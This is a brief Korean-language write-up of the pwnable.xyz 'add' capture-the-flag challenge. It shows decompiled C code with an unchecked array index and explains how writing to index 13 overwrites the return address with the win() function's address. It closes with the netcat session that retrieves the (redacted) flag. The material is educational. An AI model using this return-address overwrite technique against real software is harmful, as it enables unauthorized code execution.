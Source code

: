 # PWNABLE.XYZ
## add
~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  __int64 v4; // [rsp+8h] [rbp-78h]
  __int64 v5; // [rsp+10h] [rbp-70h]
  __int64 v6; // [rsp+18h] [rbp-68h]
  __int64 v7[11]; // [rsp+20h] [rbp-60h]
  unsigned __int64 v8; // [rsp+78h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setup();
  while ( 1 )
  {
    v4 = 0LL;
    v5 = 0LL;
    v6 = 0LL;
    memset(v7, 0, 0x50uLL);
    printf("Input: ", argv, v7);
    if ( (unsigned int)__isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6) != 3 )
      break;
    v7[v6] = v4 + v5;
    argv = (const char **)v7[v6];
    printf("Result: %ld", argv);
  }
  result = 0;
  __readfsqword(0x28u);
  return result;
}
~~~
코드는 위와 같다. if 에서 break를 벗어나지 않도록 해야겠다는 감이 왔다. break가 걸리면 __readfsqword(0x28u)를 하고 프로그램이 끝나니
따라서 3가지 수를 집어넣어주면 된다. 뭔가 코드에는 flag를 얻는 방법이 없어서 ida의 옆에 함수 부분을 보니 win()이라는 함수가 보인다.
여기서 flag를 얻을 수 있도록 되어있다. 뭔가 감이 온다. v7[v6]을 ret 주소로 만든 다음 v4+v5를 win()의 주소로 만들어주면 된다. 
win의 주소는 400822h 즉 4196386이다. v4+v5==4196386으로 하면 된다. 
v7의 offset인 -0x60h에서 0x08h로 이동 즉 0x68h만큼 이동해야 한다. v7은 한칸에 8바이트이므로 68h(104)/8 즉 13 칸만큼 이동해야 한다.
~~~
 nc svc.pwnable.xyz 30002
Input: 4196386 0 13
Result: 4196386Input: a
FLAG{***********}
~~~
위와 같은 방식으로 flag를 얻을 수 있었다. 

